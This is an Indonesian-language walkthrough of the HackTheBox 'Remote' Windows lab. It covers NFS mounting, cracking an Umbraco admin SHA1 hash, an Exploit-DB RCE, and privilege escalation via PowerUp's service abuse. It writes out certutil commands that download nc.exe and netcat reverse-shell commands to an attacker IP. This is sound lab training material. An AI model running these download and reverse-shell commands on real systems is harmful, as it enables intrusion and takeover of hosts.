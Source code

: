 # Remote (Windows)

![Image](img/1.png)

HackTheBox remote machine dengan operating system windows

### Enumeration

Mari pertama-tama kita lakukan nmap untuk mengetahui port apa saja yang terbuka pada mesin ini

![Image](img/2.png)

### User

Ternyata ada web application HTTP yang berjalan di port 80, setelah dibuka ternyata ada login portal yang berada di http://10.10.10.180/umbraco/#/developer

Terdapat service mountd dengan tipe data nfs yang dapat kita cek isinya dengan melakukan mounting menggunakan command 

```
mount -t nfs 10.10.10.180:/ ./mnt/
```

Setelah dilakukan mounting kita bisa menemukan sebuah file .sdf yang ketika di cat kita bisa melihat credentials admin dalam bentuk hash

```
adminadmin@htb.localb8be16afba8c314ad33d812f22a04991b90e2aaa{"hashAlgorithm":"SHA1"}
```

Email = admin@htb.local

Hash = b8be16afba8c314ad33d812f22a04991b90e2aaa (SHA1)

Kita bisa menggunakan dehash online karena formatnya SHA1, kemungkinan besar sudah ada di database

![Image](img/4.PNG)


Setelah melakukan dehash didapatkan password admin yaitu

```
admin
baconandcheese
```

Setelah mendapatkan kredensial admin kita sekarang bisa login melalui login portal Umbraco

Kita sekarang akan menjalankan RCE dengan menggunakan CVE Umbraco

[https://www.exploit-db.com/exploits/46153](https://www.exploit-db.com/exploits/46153)

![Image](img/3.png)

Ganti login, password, dan hostnya dan jalankan exploitnya untuk mendapatkan RCE, RCE ini akan kita gunakan untuk untuk mendownload nc.exe ke mesin remote tapi perlu diingat untuk mengganti filename dari calc.exe menjadi cmd.exe karena calc.exe itu hanya untuk PoC exploit semata
Commands yang digunakan antara lain

```
/c certutil -urlcache -f -split http://10.10.14.25/nc.exe c:/windows/temp/nc.exe
```

```
/c c:/windows/temp/nc.exe 10.10.14.25 1234 -e powershell.exe
```

### Root

Setelah mendapatkan low privilege shell, kita akan menggunakan PowerUp.ps1 untuk mencoba mencari cara privilege escalation ke system admin. Dan ternyata Ditemukan Invoke-AbuseService untuk RCE sebagai administrator, pakai nc64 yang sama

```
Invoke-ServiceAbuse -Name 'UsoSvc' -Command "c:\windows/temp\nc64.exe -e powershell.exe 10.10.14.25 7777
```

Dengan setup netcat listener kita bisa mendapatkan shell sebagai NTAuthority !

# Rooted !